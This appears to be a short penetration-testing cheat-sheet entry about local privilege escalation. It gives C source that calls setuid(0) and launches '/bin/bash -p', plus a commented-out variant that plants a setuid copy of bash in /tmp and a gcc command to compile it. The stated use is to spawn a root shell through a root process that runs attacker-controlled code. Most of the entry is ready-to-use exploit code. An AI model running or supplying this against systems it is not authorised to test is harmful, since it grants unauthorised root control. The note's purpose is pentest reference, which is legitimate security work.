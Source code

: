 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

==privesc.c==

---
```bash - target
int main() {
 setuid(0);
 system("/bin/bash -p");
 #system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```

```bash - target
gcc privesc.c -o privesc 
```